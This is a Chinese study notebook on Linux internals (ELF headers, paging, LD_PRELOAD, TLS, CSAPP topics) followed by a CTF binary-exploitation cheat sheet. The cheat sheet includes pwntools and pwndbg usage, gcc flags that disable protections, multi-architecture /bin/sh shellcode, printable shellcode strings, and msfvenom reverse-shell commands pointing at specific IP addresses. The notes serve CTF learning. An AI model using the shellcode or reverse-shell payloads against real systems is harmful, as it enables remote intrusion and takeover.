| PT_DYNAMIC | 2           | 数组元素给出动态链接信息。Dynamic Segment 是很重要的一个程序头，里面存储着函数名、使用过的动态库名、重定位表、函数代码偏移等重要信息，不过不是直接记录，而是通过一定的方法查询得到，这个查询过程是elf设计中巧妙且关键的核心所在。 |
| PT_INTERP  | 3           | 该记录的是链接器linker的路径.数组元素给出一个 NULL 结尾的字符串的位置和长度,该字符串将被当作解释器调用。这种段类型仅对与可执行文件有意义(尽管也可能在共享目标文件上发生)。在一个文件中不能出现一次以上。如果存在这种类型的段,它必须在所有可加载段项目的前面。 |
| PT_NOTE    | 4           | 此数组元素给出附加信息的位置和大小。                         |
| PT_SHLIB   | 5           | 此段类型被保留,不过语义未指定。包含这种类型的段的程序与 ABI 不符。 |
| PT_PHDR    | 6           | 此类型的数组元素如果存在,则给出了程序头部表自身的大小和位置,既包括在文件中也包括在内存中的信息。此类型的段在文件中不能出现一次以上。并且只有程序头部表是程序的内存映像的一部分时才起作用。如果存在此类型段,则必须在所有可加载段项目的前面。 |
| PT_LOPROC  | 0x70000000  | 此范围的类型保留给处理器专用语义。                           |
| PT_HIPROC  | 0x7ffffffff |                                                              |


#### 页映射

开启了ASLR,虽然导致每次泄漏的函数地址不一样，但后3位始终一样，这里实际上是**页映射**。

二进制文件在运行起来以后，都将拥有独立的虚拟内存空间。 进程有了虚拟内存后，每个进程都拥有4G的内存空间，当然这只是每个进程认为的。但实际上，虚拟内存对应的实际物理内存，可能只对应的分配了一点点的物理内存，实际使用了多少内存，就会对应多少物理内存。

进程得到的这4G虚拟内存是一个连续的地址空间（这也只是进程认为），而实际上，它的数据是存储在多个物理内存碎片的，还有一部分存储在外部磁盘存储器上，在需要时将数据交换进物理内存。

进程开始要访问一个地址，它可能会经历下面的过程

1. 进程每次要访问地址空间上的某一个地址时，都需要把地址翻译为实际物理内存地址。
2. 所有进程共享一整块物理内存，每个进程只把自己目前需要访问的虚拟地址空间映射到物理内存上。
3. 进程需要知道哪些虚拟内存地址空间上的数据在物理内存上，哪些不在（可能这部分存储在磁盘上），若在物理内存上存在，则需要进一步知道数据存储在物理内存上的具体位置，这都需要通过页表来记录。
4. 页表的每一个表项分两部分，第一部分记录此页是否在物理内存上，第二部分记录物理内存页的地址（如果在的话）。
5. 当进程访问某个虚拟地址的时候，就会先去看页表，如果发现对应的数据不在物理内存上，就会发生缺页异常。
6. 缺页异常的处理过程，操作系统立即阻塞该进程，并将硬盘里对应的页换入内存，然后使该进程就绪，如果内存已经满了，没有空地方了，那就找一个页覆盖，至于具体覆盖的哪个页，就需要看操作系统的页面置换算法是怎么设计的了。


我们知道，当一个程序运行时，在某个时间段内，它只是频繁地用到了一小部分数据，也就是说，程序的很多数据其实在一个时间段内都不会被用到。

以整个程序为单位进行映射，不仅会将暂时用不到的数据从磁盘中读取到内存，也会将过多的数据一次性写入磁盘，这会严重降低程序的运行效率。

现代计算机都使用分页（Paging）的方式对虚拟地址空间和物理地址空间进行分割和映射，以减小换入换出的粒度，提高程序运行效率。

**分页**（Paging）的思想是指把地址空间人为地分成大小相等（并且固定）的若干份，这样的一份称为一页，就像一本书由很多页面组成，每个页面的大小相等。如此，就能够以页为单位对内存进行换入换出：

- 当程序运行时，只需要将必要的数据从磁盘读取到内存，暂时用不到的数据先留在磁盘中，什么时候用到什么时候读取。
- 当物理内存不足时，只需要将原来程序的部分数据写入磁盘，腾出足够的空间即可，不用把整个程序都写入磁盘。

##### 关于页的大小

页的大小是固定的，由硬件决定，或硬件支持多种大小的页，由操作系统选择决定页的大小。比如 Intel Pentium 系列处理器支持 4KB 或 4MB 的页大小，那么操作系统可以选择每页大小为 4KB，也可以选择每页大小为 4MB，但是在同一时刻只能选择一种大小，所以对整个系统来说，也就是固定大小的。

目前几乎所有PC上的操作系统都是用 4KB 大小的页。假设我们使用的PC机是32位的，那么虚拟地址空间总共有 4GB，按照 4KB 每页分的话，总共有 2^32 / 2^12 = 2^20 = 1M = 1048576 个页；物理内存也是同样的分法。


#### Linux重定向

Linux Shell 重定向分为两种，一种输入重定向，一种是输出重定向；从字面上理解，输入输出重定向就是「改变输入与输出的方向」的意思。

那么，什么是输入输出方向呢？标准的输入输出方向又是什么呢？

一般情况下，我们都是从键盘读取用户输入的数据，然后再把数据拿到程序（C语言程序、Shell 脚本程序等）中使用；这就是标准的输入方向，也就是从键盘到程序。

反过来说，程序中也会产生数据，这些数据一般都是直接呈现到显示器上，这就是标准的输出方向，也就是从程序到显示器。

我们可以把观点提炼一下，其实输入输出方向就是数据的流动方向：

- 输入方向就是数据从哪里流向程序。数据默认从键盘流向程序，如果改变了它的方向，数据就从其它地方流入，这就是输入重定向。
- 输出方向就是数据从程序流向哪里。数据默认从程序流向显示器，如果改变了它的方向，数据就流向其它地方，这就是输出重定向。

使用 exec 命令可以永久性地重定向


#### Linux环境变量

变量是计算机系统用于保存可变值的数据类型，我们可以直接通过变量名称来提取到对应的变量值。在 Linux 系统中，环境变量是用来定义系统运行环境的一些参数，比如每个用户不同的家目录（HOME）、邮件存放位置（MAIL）等。

> 值得一提的是，Linux 系统中环境变量的名称一般都是大写的，这是一种约定俗成的规范

使用 env 命令来查看到 Linux 系统中所有的环境变量

Linux 系统能够正常运行并且为用户提供服务，需要数百个环境变量来协同工作


| 环境变量名称 | 作用                                   |
| ------------ | -------------------------------------- |
| HOME         | 用户的主目录（也称家目录）             |
| SHELL        | 用户使用的 Shell 解释器名称            |
| PATH         | 定义命令行解释器搜索用户执行命令的路径 |
| EDITOR       | 用户默认的文本解释器                   |
| RANDOM       | 生成一个随机数字                       |
| LANG         | 系统语言、语系名称                     |
| HISTSIZE     | 输出的历史命令记录条数                 |
| HISTFILESIZE | 保存的历史命令记录条数                 |
| PS1          | Bash解释器的提示符                     |
| MAIL         | 邮件保存路径                           |


LD_PRELOAD是linux系统中的一个环境变量，**它可以指定优先加载某个动态库**。当主程序中有相同的符号出现在不同的动态库中，会使用优先加载的动态库中的符号。根据这个原理，如果要被hook的函数在动态库a中，那么可以重载一个相同定义的函数并把它编译成动态库b，并使用LD_PRELOAD执行优先加载动态库b。当启动主程序的时候，主程序会调用动态库b中的函数。**通过这个环境变量，我们可以在主程序和其动态链接库的中间加载别的动态链接库，去覆盖正常的函数库。**

默认情况下linux的动态库链接顺序：

```rust
LD_PRELOAD --> LD_LIBRARY_PATH --> /lib --> /usr/lib
```


environ 环境变量查找表会存储于每一个进程内存空间中的 mian 栈的上面的位置


```
#include <stdio.h>
#include <unistd.h>

extern char **environ;
// env 和 environ 是一样的，都是指向的存储着环境变量字符串指针的数组
int main(int argc, char **argv, char **env)
{
    for (int i=0; env[i] != NULL; i++) {
        printf("env[%d] at %p = %s\n", i, env[i], env[i]);
    }
    printf("End of Env\n");
    getchar();
    return 0;
}
```


TLS--线程局部存储

**概念**：线程局部存储（Thread Local Storage，TLS）用来将数据与一个正在执行的指定线程关联起来。

进程中的全局变量与函数内定义的静态(static)变量，是各个线程都可以访问的共享变量。在一个线程修改的内存内容，对所有线程都生效。这是一个优点也是一个缺点。说它是优点，线程的数据交换变得非常快捷。说它是缺点，一个线程死掉了，其它线程也性命不保; 多个线程访问共享数据，需要昂贵的同步开销，也容易造成同步相关的BUG。

　　如果需要在一个线程内部的各个函数调用都能访问、但其它线程不能访问的变量（被称为static memory local to a thread 线程局部静态变量），就需要新的机制来实现。这就是TLS。

　　线程局部存储在不同的平台有不同的实现，可移植性不太好。幸好要实现线程局部存储并不难，最简单的办法就是建立一个全局表，通过当前线程ID去查询相应的数据，因为各个线程的ID不同，查到的数据自然也不同了。大多数平台都提供了线程局部存储的方法，无需要我们自己去实现：

```
linux:
　　int pthread_key_create(pthread_key_t *key, void (*destructor)(void*));
　　int pthread_key_delete(pthread_key_t key);
　　void *pthread_getspecific(pthread_key_t key);
　　int pthread_setspecific(pthread_key_t key, const void *value);
```

 **功能**：它主要是为了避免多个线程同时访存同一全局变量或者静态变量时所导致的冲突，尤其是多个线程同时需要修改这一变量时。为了解决这个问题，我们可以通过TLS机制，为每一个使用该全局变量的线程都提供一个变量值的副本，每一个线程均可以独立地改变自己的副本，而不会和其它线程的副本冲突。从线程的角度看，就好像每一个线程都完全拥有该变量。而从全局变量的角度上来看，就好像一个全局变量被克隆成了多份副本，而每一份副本都可以被一个线程独立地改变。


linux内存


```c
struct page {
    // 存储 page 的定位信息以及相关标志位
    unsigned long flags;        

    union {
        struct {    /* Page cache and anonymous pages */
            // 用来指向物理页 page 被放置在了哪个 lru 链表上
            struct list_head lru;
            // 如果 page 为文件页的话，低位为0，指向 page 所在的 page cache
            // 如果 page 为匿名页的话，低位为1，指向其对应虚拟地址空间的匿名映射区 anon_vma
            struct address_space *mapping;
            // 如果 page 为文件页的话，index 为 page 在 page cache 中的索引
            // 如果 page 为匿名页的话，表示匿名页在对应进程虚拟内存区域 VMA 中的偏移
            pgoff_t index;
            // 在不同场景下，private 指向的场景信息不同
            unsigned long private;
        };
        
        struct {    /* slab, slob and slub */
            union {
                // 用于指定当前 page 位于 slab 中的哪个具体管理链表上。
                struct list_head slab_list;
                struct {
                    // 当 page 位于 slab 结构中的某个管理链表上时，next 指针用于指向链表中的下一个 page
                    struct page *next;
#ifdef CONFIG_64BIT
                    // 表示 slab 中总共拥有的 page 个数
                    int pages;  
                    // 表示 slab 中拥有的特定类型的对象个数
                    int pobjects;   
#else
                    short int pages;
                    short int pobjects;
#endif
                };
            };
            // 用于指向当前 page 所属的 slab 管理结构
            struct kmem_cache *slab_cache; 
        
            // 指向 page 中的第一个未分配出去的空闲对象
            void *freelist;     
            union {
                // 指向 page 中的第一个对象
                void *s_mem;    
                struct {            /* SLUB */
                    // 表示 slab 中已经被分配出去的对象个数
                    unsigned inuse:16;
                    // slab 中所有的对象个数
                    unsigned objects:15;
                    // 当前内存页 page 被 slab 放置在 CPU 本地缓存列表中，frozen = 1，否则 frozen = 0
                    unsigned frozen:1;
                };
            };
        };
        struct {    /* 复合页 compound page 相关*/
            // 复合页的尾页指向首页
            unsigned long compound_head;    
            // 用于释放复合页的析构函数，保存在首页中
            unsigned char compound_dtor;
            // 该复合页有多少个 page 组成
            unsigned char compound_order;
            // 该复合页被多少个进程使用，内存页反向映射的概念，首页中保存
            atomic_t compound_mapcount;
        };

        // 表示 slab 中需要释放回收的对象链表
        struct rcu_head rcu_head;
    };

    union {     /* This union is 4 bytes in size. */
        // 表示该 page 映射了多少个进程的虚拟内存空间，一个 page 可以被多个进程映射
        atomic_t _mapcount;

    };

    // 内核中引用该物理页的次数，表示该物理页的活跃程度。
    atomic_t _refcount;

#if defined(WANT_PAGE_VIRTUAL)
    void *virtual;  // 内存页对应的虚拟内存地址
#endif /* WANT_PAGE_VIRTUAL */

} _struct_page_alignment;
```


csapp


IEEE浮点表示


IEEE浮点表示使用
$$
V=(−1)^s×M×2^E
$$
  表示数字。其中包含三部分：

- **符号（Sign）s：**用来确定V的正负性，当s=0时表示正数，s=1时表示负数。用一个单独的符号位直接进行编码。
- **尾数（Significand）M：** 是一个二进制小数，通常介于1和2之间的小数。使用k位二进制进行编码的小数。
- **阶码（Exponent）E：**对浮点数进行加权。使用n位进行编码的正数 ek−1,ek−2,...,e0。

C语言中有单精度精浮点数`float`，其中s=1、k=8、n=23；还有双精度浮点数`double`，其中s=1、k=11、n=52。


异常


- 现代系统通过使控制流发生突变来对各种系统状态的变化做出反应，这种突变称为**异常控制流**(Exceptional Control Flow, ECF)。异常控制流发生在计算机系统的各个阶段，例如上下文切换、发送与接受信号，以及应用程序通过使用*陷阱*(trap)或*系统调用*(system call)的ECF形式，向操作系统请求服务。

- 在任何情况下，当CPU检测到*事件*发生时，它会通过一张叫做*异常表*(exception-table)的跳转表，跳转至处理特定异常的*异常处理程序*(exception handler)进行处理。

- 异常处理完成后，会发生以下三种情况中的一种

  - 控制流返回当前指令(即引起异常的指令，例如缺页异常)
  - 控制流返回下一条指令
  - 终止当前被中断的程序

- 异常的类别

  | 类别            | 原因              | 异步/同步 | 返回行为             |
  | :-------------- | :---------------- | :-------: | :------------------- |
  | 中断(interrupt) | 来自I/O设备的信号 |   异步    | 总是返回到下一条指令 |
  | 陷阱(trap)      | 有意的异常        |   同步    | 总是返回到下一条指令 |
  | 故障(fault)     | 潜在可恢复的错误  |   同步    | 可能返回到当前指令   |
  | 终止(abort)     | 不可恢复的错误    |   同步    | 不会返回             |

  中断

  - 一些I/O设备或芯片通过向CPU上的某个引脚发送信号，并将异常号放至系统总线上来触发中断。
  - 在当前指令执行完成后，CPU注意该引脚上的电压变为高电平，则获取异常号并调用中断处理程序，最后将控制流返回到下一条指令。

  

  陷阱

  - 陷阱是一种*有意*的异常，其最重要的用途是在用户程序与内核间提供一个*系统调用*接口。利用该接口可进行读/写文件，加载程序等等。
  - 执行syscall指令会导致一个异常处理程序的陷阱，该程序会解析参数并调用适当的内核程序。

  

  故障

  - 故障由错误情况引起，它可能被故障处理程序所修正。
  - 其中一个经典的故障示例是**缺页异常**。

  

  终止

  - 终止是不可恢复的致命错误造成的后果，通常是一些硬件错误。


进程提供给应用程序两个假象：

1. 独立的逻辑控制流：每个程序似乎独占CPU。（由内核通过**上下文切换**机制来实现）
2. 私有的空间地址：每个程序似乎独占内存。（由内核的**虚拟内存**机制来实现）

进程就是一个**执行中的程序的实例**。系统中每个程序都运行在某个进程的**上下文**中。


逻辑控制流指的是程序计数器（PC）值的序列，这些值唯一地对应包含在程序可执行目标文件、动态链接库中的指令。

多重处理实际上是进程轮流使用寄存器，每个进程执行它的流的一部分，然后被暂时挂起，轮到其他进程。


# PWN

#### pwntools的使用


pwntools的的简单使用(千万不要命名文件为pwn.py)

```
from pwn import *

p = remote("ip地址", ip端口)# 与互联网主机远程交互
p=process("./")#与本地程序交互
p = process(["./ld-2.34.so","./happy_note"],env={"LD_PRELOAD":"./libc.so.6"})

elf = ELF('')#ELF模块用于获取ELF文件的信息
elf.address # 文件装载的基地址
elf.symbols['buf']) # 变量buf地址
elf.got['write']) # write函数GOT表的地址
elf.plt['write']) # write函数PLT的地址
libc.search(b'/bin/sh\x00').__next__()#查找bin/sh字符串

shellcraft.sh()#shellcode #32位模块
shellcode=asm(shellcraft.sh())
context.arch="amd64"
shellcraft.sh.amd64()#shellcode #64位模块
#相应的函数的汇编
shellcraft.open("./flag")
shellcraft.read(int fd, void *buf, size_t count)
shellcraft.write(int fd, void *buf, size_t count)


new_flag=bytes(output.encode('latin'))#字符串变为b''

cyclic(n)生成n个垃圾数据
flat(,,)
flat({60:pay},length=0x80,filler=NULL)

context.log_level="debug"
context(os='linux', arch='amd64', log_level='debug')
context(arch='arm', os='linux', endian='big', word_size=32)
context.terminal = ['tmux', 'splitw', '-h', '-F' '#{pane_pid}',]

p.sendline("")#发送一行信息（自动添加换行符）
p.send("")#发送信息（不自动添加换行符）
p.sendafter("","")# 逗号前为接收的数据，逗号后为接收到数据后要发送的数据
p.sendlineafter("","")#与sendafter功能一样，但发送数据会自动换行
p.shutdown_raw('send') #关闭管道的 send 方向，使远程 read() 读到 EOF

p.recv(count)# 读取count长度的信息
p.recvline("")#返回直到读取到指定数据信息
p.recvuntil("")#读取数据直到我们设置的标志出现
p.can_recv() #返回bool值

gdb.attach(p)
gdb.attach(proc.pidof(sh)[0],gdbscript="b main")
pause()

payload=b'a'*n+p32(地址)#如果是64位文件的就为p64
payload=flag([,,])
p.sendline(payload)
p.interactive()#进行交互
```


```
if(len(sys.argv) == 3):
    p = remote(sys.argv[1],sys.argv[2])
else:
    p = process(sys.argv[1])
l64 = lambda      :u64(p.recvuntil(b'\x7f')[-6:].ljust(8,b'\x00'))
l32 = lambda      :u32(p.recvuntil(b'\xf7')[-4:].ljust(4,b"\x00"))
sla = lambda a,b  :p.sendlineafter(str(a).encode(),str(b).encode())
sa  = lambda a,b  :p.sendafter(str(a).encode(),str(b).encode())
lg  = lambda name,data : p.success(name + ": 0x%x" % data)
se  = lambda payload: p.send(payload)
rl  = lambda      : p.recv()
sl  = lambda payload: p.sendline(payload)
ru  = lambda a     :p.recvuntil(str(a))
```


#### pwndbg使用


```
b 断点指令
b main(函数名称)
b *0x555555400

s   单步步入，遇到调用跟进函数中，相当于step into，源码层面的一步
n   单步补过，遇到不跟进，相当于step over，源码层面的一步
c   continue，常用，继续执行到断点，没断点就一直执行下去
r   run，常用，重新开始执行
plt 查看plt表地址
got 查看got表内容
x/20 0x401030(地址) 地址内容
x/20gx 0x
x/10xs
x/5i
disass 0x7ff……(地址) 反汇编
info b 查看断点信息-> d 1 删除1号断点
info reg
info types HitbState 查看结构体
start 

backtrace 查看函数调用关系
return 直接返回原函数

mp
canary
tls
i threads 看查当前的线程信息（包括了TLS结构体的位置）
thread n 切换为编号为n的线程
set follow-fork-mode parent #只调试父进程
fsbase 获得 fs 寄存器的值

$rebase

tele 以stack的形式显示内存

p main_arena.fastbinY
p/x
vis
paresheap

search --pointer 0x557cb674f010#寻找该地址的的指针
search -t string "/bin/sh"
leakfind $libc+0x292000 --page_name=stack --max_offset=0x4000 --max_depth=1
set *0x55555555b298 = 0x555555559ef8

vmmap 虚拟内存空间分布
	
dir 源码
directory ./glibc-2.31/stdio-common

stack n  查看n长度的栈帧
heap    查看堆

fmtarg 0x7fffffffd4d0

attach 进程号

hexdump
```


编译指令

```
gcc test.c//编译后自动生成a.out可执行文件
gcc -o test test.c//编译后自动test可执行文件,-o表示目标文件名
gcc -E hello.c -o hello.i//只执行预处理，输出 hello.i 源文件
gcc -S hello.c只执行预处理和编译，输出 hello.s 汇编文件
gcc -S hello.i -o hello.s// hello.i 文件生成 hello.s 汇编文件
gcc -c hello.c//只执行预处理、编译和汇编，输出 hello.o 目标文件
gcc -c hello.i -o hello.o
gcc -c hello.s -o hello.o//也可以由 hello.i 或 hello.s 生成目标文件 hello.o
gcc hello.o -o hello//由 hello.o 目标文件链接成可执行文件 hello
gcc -g test.c//  -g表示带上调试信息，gdb时直接看到C语言源文件代码，前提是源文件没有删除

gcc --static test.c//静态链接


gcc -o test test.c // 默认情况下，不开启Canary保护
gcc -fno-stack-protector -o test test.c //禁用栈保护
gcc -fstack-protector -o test test.c //启用堆栈保护，不过只为局部变量中含有 char 数组的函数插入保护代码
gcc -fstack-protector-all -o test test.c //启用堆栈保护，为所有函数插入保护代码

gcc -o test test.c // 默认情况下，开启NX保护
gcc -z execstack -o test test.c // 禁用NX保护
gcc -z noexecstack -o test test.c // 开启NX保护

判断ASLR是否打开，输出2表示打开,1表示部分开启，0表示未开启
cat /proc/sys/kernel/randomize_va_space 
关闭ASLR，切换至root用户，输入命令
echo 0 > /proc/sys/kernel/randomize_va_space

gcc -o test test.c // 默认情况下，开启PIE
gcc -no-pie -o test test.c
gcc -fpie -pie -o test test.c // 开启PIE，此时强度为1
gcc -fPIE -pie -o test test.c // 开启PIE，此时为最高强度2
gcc -fpic -o test test.c // 开启PIC，此时强度为1，不会开启PIE
gcc -fPIC -o test test.c // 开启PIC，此时为最高强度2，不会开启PIE

gcc -o test test.c // 默认情况下，是Partial RELRO
gcc -z norelro -o test test.c // 关闭，即No RELRO
gcc -z lazy -o test test.c // 部分开启，即Partial RELRO
gcc -z now -o test test.c // 全部开启，即Full RELRO
```


```
patchelf --set-interpreter /home/x/glibc-all-in-one/libs/2.23-0ubuntu3_amd64/ld-2.23.so --set-rpath /home/x/glibc-all-in-one/libs/2.23-0ubuntu3_amd64 target_file
patchelf --replace-needed libstdc++.so.6 '/home/x/glibc-all-in-one/libs/2.27-3ubuntu1_amd64/libstdc++.so.6.0.25'  filename
patchelf --shrink-rpath filename


ROPgadget --binary ciscn_2019_ne_5 --string "sh" 
ROPgadget --binary ciscn_2019_ne_5 --only "pop|ret"
ROPgadget --binary libc-2.31.so --opcode "0f05c3"

seccomp-tools dump ./pwn
```


```
wget https://ftp.gnu.org/gnu/glibc/glibc-2.34.tar.gz
tar xvf glibc-2.34.tar.gz
cd glibc-2.34
mkdir 64
mkdir build
cd build
sudo apt-get install bison
sudo apt-get install gawk
make && make install
patchelf --set-interpreter /home/kali/Desktop/glibc-2.34/64/lib/ld-linux-x86-64.so.2 --set-rpath /home/kali/Desktop/glibc-2.34/64/lib/libc.so.6  filename


git clone https://github.com/scwuaptx/Pwngdb.git 
cp ~/Pwngdb/.gdbinit ~/
vim ~/.gdbinit
source ~/pwndbg/gdbinit.py
```


**系统调用**

在电脑中，系统调用(英语: system call)，指运行在用户空间的程序向操作系统内核请求需要更高权限运行的服务。系统调用提供用户程序与操作系统之间的接口。大多数系统交互式操作需求在内核态运行。如设备I0操作或者进程间通信。

用户空间(用户态)和内核空间(内核态) 

操作系统的进程空间可分为用户空间和内核空间，它们需要不同的执行权限。其中系统调用运行在内核空间。

库函数

系统调用和普通库员数闻用非常相似，只是系统调用由操作系统内核提供，运行于内核核心态，而普通的库的数调用由函数库成用户自己提供，运行于用户态。

典型实现(Linux) 

Linux的系统调用通过int 80h实现，用系统调用号来区分入口函数。操作系统实现系统调用的基本过程是:

1.应用程序调用库函数(API)

2.API将系统调用号存入EAX,然后通过中断调用使系统进入内核态;

3.内核中的中断处理函数根据系统调用号，调用对应的内核通数(系统调用) ;

4.系统调用完成相应功能，将返回值存入EAX,返回到中断处理的数:

5.中断处理造数返回到API中:

6.API将EAX返回给应用程序。

应用程序调用系统调用的过程是:

1.把系统调用的编号存入EAX;

2把函数参数存入其它通用寄存器;

3.触发0x80号中断(int 0x80)。

上面的是32位的系统调用，而64位系统的系统调用总体思想还是一样的， 当然也会有些不同，

```
syscall:
寄存器 rax 中存放系统调用号，同时系统调用返回值也存放在 rax 中
当系统调用参数小于等于6个时，参数则必须按顺序放到寄存器 rdi，rsi，rdx，r10，r8，r9中
int 0x80 :
寄存器 rax 中存放系统调用号，同时返回值也存放在 rax 中
当系统调用参数小于等于6个时，参数则必须按顺序放到寄存器 rbx，rcx，rdx，rsi，rdi ，rbp中


32位
mov eax, 0xb
mov ebx, ["/bin/sh"] 
mov ecx, 0
mov edx, 0
int 0x80
=> execve("/bin/sh",NULL,NULL)=>system("/bin/sh")

mov eax, 0x4
mov ebx, fd 为要写入的文件的描述符  1 
mov ecx, buf 为要写入的数据的缓冲区地址
mov edx, nbytes 为要写入的数据的字节数
int 0x80
=> sys_write(int fd,const void *buf,size_t nbytes)

mov eax, 0x3
mov ebx, fd 为要读取的文件的描述符  0
mov ecx, buf 为要读取的数据的缓冲区地址
mov edx, nbytes 为要读取的数据的字节数
int 0x80
=> sys_read(int fd,const void *buf,size_t nbytes)

64位
mov rax, 0x3b
mov rdi, ["/bin/sh"] 
mov rsi, 0
mov rdx, 0
syscall
=> execve("/bin/sh",NULL,NULL)=>system("/bin/sh")

mov rax, 0x1
mov rdi, fd 为要写入的文件的描述符  1 
mov rsi, buf 为要写入的数据的缓冲区地址
mov rdx, nbytes 为要写入的数据的字节数
syscall
=> sys_write(int fd,const void *buf,size_t nbytes)

mov rax, 0x0
mov rdi, fd 为要读取的文件的描述符  0
mov rsi, buf 为要读取的数据的缓冲区地址
mov rdx, nbytes 为要读取的数据的字节数
syscall
=> sys_read(int fd,const void *buf,size_t nbytes)
实际运用时使用int 0x80 syscall函数

0x90 nop

19   readv
20   writev
257  openat /

```

https://blog.nowcoder.net/n/f8f717fe003541478df1de77ae12bebd


system与execve

1. execve(“/bin/sh”,0,0)是个系统调用，执行后，即使他发生在某个线程中，整个进程的程序也会被换掉，但进程号保留
2. system(“/bin/sh”)是个库函数，背后的系统调用是：fork + execve + waitpid，所以启动的shell是一个新的进程，老进程还在。也正因为waitpid，所以system才会卡住。


#### shellcode

```
x86
	xor ecx,ecx
	xor edx,edx
	push edx
	push 0x68732f6e
	push 0x69622f2f
	mov ebx,esp
	mov al,0xb
	int 0x80

mipsel
	slti $a2, $zero, -1
    li $t7, 0x69622f2f
    sw $t7, -12($sp)
    li $t6, 0x68732f6e
    sw $t6, -8($sp)
    sw $zero, -4($sp)
    la $a0, -12($sp)
    slti $a1, $zero, -1
    li $v0, 4011
    syscall 0x40404
    
arm
	add r0, pc, #12
    mov r1, #0
    mov r2, #0
    mov r7, #11
    svc 0
    .ascii "/bin/sh\\0"
    
aarch64
	add x0, x30, #20
    mov x1, xzr
    mov x2, xzr
    mov x8, #221
    svc 0
    .ascii "/bin/sh\\0"
```


 

/usr/share/metasploit-framework/lib/msf/core/handler/reverse_ssh.rb

```
      def default_version_string
        require 'rex/proto/ssh/connection'
        Rex::Proto::Ssh::Connection.default_options['local_version']
      rescue OpenSSL::OpenSSLError => e
        print_error("ReverseSSH handler did not load with OpenSSL version #{OpenSSL::VERSION}")
        elog(e)
        'SSH-2.0-OpenSSH_5.3p1'
       rescue LoadError => e
         print_error("This handler requires PTY access not available on all platforms.")
         elog(e)
         'SSH-2.0-OpenSSH_5.3p1'
```


```
msfvenom -p <payload> <payload options> -f <format> -o <path>

msfvenom -p <payload> <payload options> -a <arch> --platform <platform> -e <encoder option> -i <encoder times> -b <bad-chars> -n <nopsled> -f <format> -o <path>


msfvenom -p linux/mipsel/shell_reverse_tcp  LHOST=192.168.184.138 LPORT=6666 --arch mipsel --platform linux -f py -o shellcode.py
msfvenom -p windows/x64/shell_reverse_tcp LHOST=43.138.225.155 LPORT=8888 --platform windows -f exe -o shell.exe
msfvenom -p linux/x64/shell_reverse_tcp LHOST=43.138.225.155 LPORT=8888 --platform Linux -f elf -o shell

msfvenom --list payload | grep mipsle
```


**可见字符的shellcode**

限制了shellcode为可打印字符，也就是说现在的shellcode中不能出现不可见字符，那么能用的汇编语句就大大减少了，`如32位的int 0x80` 所对应的字节码是 `\xCD \x80`，明显不可打印；`64位的syscall` 对应的字节码是 `\x0F \x05 ,都不能直接输入。


| ASCII | Hex  |  Assembler Instruction   |
| :---: | :--: | :----------------------: |
|   0   | 0x30 | xor %{16bit}, (%{64bit}) |
|   1   | 0x31 | xor %{32bit}, (%{64bit}) |
|   2   | 0x32 | xor (%{64bit}), %{16bit} |
|   3   | 0x33 | xor (%{64bit}), %{32bit} |
|   4   | 0x34 |     xor [byte], %al      |
|   5   | 0x35 |    xor [dword], %eax     |
|   6   | 0x36 |   %ss segment register   |
|   7   | 0x37 |     Bad Instruction!     |
|   8   | 0x38 | cmp %{16bit}, (%{64bit}) |
|   9   | 0x39 | cmp %{32bit}, (%{64bit}) |


|  P   | 0x50 | push %rax |
| :--: | ---- | --------- |
|  Q   | 0x51 | push %rcx |
|  R   | 0x52 | push %rdx |
|  S   | 0x53 | push %rbx |
|  T   | 0x54 | push %rsp |
|  U   | 0x55 | push %rbp |
|  V   | 0x56 | push %rsi |
|  W   | 0x57 | push %rdi |
|  X   | 0x58 | pop %rax  |
|  Y   | 0x59 | pop %rcx  |
|  Z   | 0x5a | pop %rdx  |


```
Ph0666TY1131Xh333311k13XjiV11Hc1ZXYf1TqIHf9kDqW02DqX0D1Hu3M2G0Z2o4H0u0P160Z0g7O0Z0C100y5O3G020B2n060N4q0n2t0B0001010H3S2y0Y0O0n0z01340d2F4y8P115l1n0J0h0a070t
```


```
Rh0666TY1131Xh333311k13XjiV11Hc1ZXYf1TqIHf9kDqW02DqX0D1Hu3M2G0Z2o4H0u0P160Z0g7O0Z0C100y5O3G020B2n060N4q0n2t0B0001010H3S2y0Y0O0n0z01340d2F4y8P115l1n0J0h0a070t
```


**沙盒**

seccomp 是 secure computing 的缩写，其是 Linux kernel 从2.6.23版本引入的一种简洁的 sandboxing 机制。在 Linux 系统里，大量的系统调用（system call）直接暴露给用户态程序。但是，并不是所有的系统调用都被需要，而且不安全的代码滥用系统调用会对系统造成安全威胁。seccomp安全机制能使一个进程进入到一种“安全”运行模式，该模式下的进程只能调用4种系统调用（system call），即 read(), write(), exit() 和 sigreturn()，否则进程便会被终止。


```
// 函数原型
#include <sys/prctl.h>
int prctl(int option, unsigned long arg2, unsigned long arg3, unsigned long arg4, unsigned long arg5);

// option选项有很多，剩下的参数也由option确定，这里介绍两个主要的option
// PR_SET_NO_NEW_PRIVS(38) 和 PR_SET_SECCOMP(22)

// option为38的情况
// 此时第二个参数设置为1，则禁用execve系统调用且子进程一样受用
prctl(38, 1LL, 0LL, 0LL, 0LL);

// option为22的情况
// 此时第二个参数为1，只允许调用read/write/_exit(not exit_group)/sigreturn这几个syscall
// 第二个参数为2，则为过滤模式，其中对syscall的限制通过参数3的结构体来自定义过滤规则。
prctl(22, 2LL, &v1);

```

[PWN题中常见的seccomp绕过方法-安全客 - 安全资讯平台 (anquanke.com)](https://www.anquanke.com/post/id/219077)


```
test.asm：
A = sys_number
A == openat ? ok:allow

ok:
return ERRNO(0)
allow:
return ALLOW

seccomp-tools asm test.asm
```


`int 3绕过`


vim

```
i
:w
:q
:wq
:%!xxd
```


栈溢出就是缓冲区溢出的一种。 由于缓冲区溢出而使得有用的存储单元被改写,往往会引发不可预料的后果。程序在运行过程中，为了临时存取数据的需要，一般都要分配一些内存空间，通常称这些空间为缓冲区。如果向缓冲区中写入超过其本身长度的数据，以致于缓冲区无法容纳，就会造成缓冲区以外的存储单元被改写，这种现象就称为缓冲区溢出。缓冲区长度一般与用户自己定义的缓冲变量的类型有关。


泄漏Canary

puts函数在输出的时候是遇到’\x00’ 才会结束

printf()函数 格式化字符串


call system 和 system_plt

可以溢出0xc字节，但是没法利用plt地址了，因为plt地址需要返回值，可溢出的地址位数不够，所以只能用shell函数里的call system来调用system，call函数不用返回值了，它会自己把下一条指令给压进去


/bin/sh和/sh作用相同    64位/bin/sh\x00  32位;sh\x00   sh\x00\x00  bash

修改free_got后调用free(p) ，参数为p中的值，修改__free_hook后，参数为p中的值里的值


注意栈上存在的libc地址


32位  -2147483648的补码是0x80000000，它取反加一之后仍然是0x80000000

64位 0x8000000000000000


`RELRO`保护

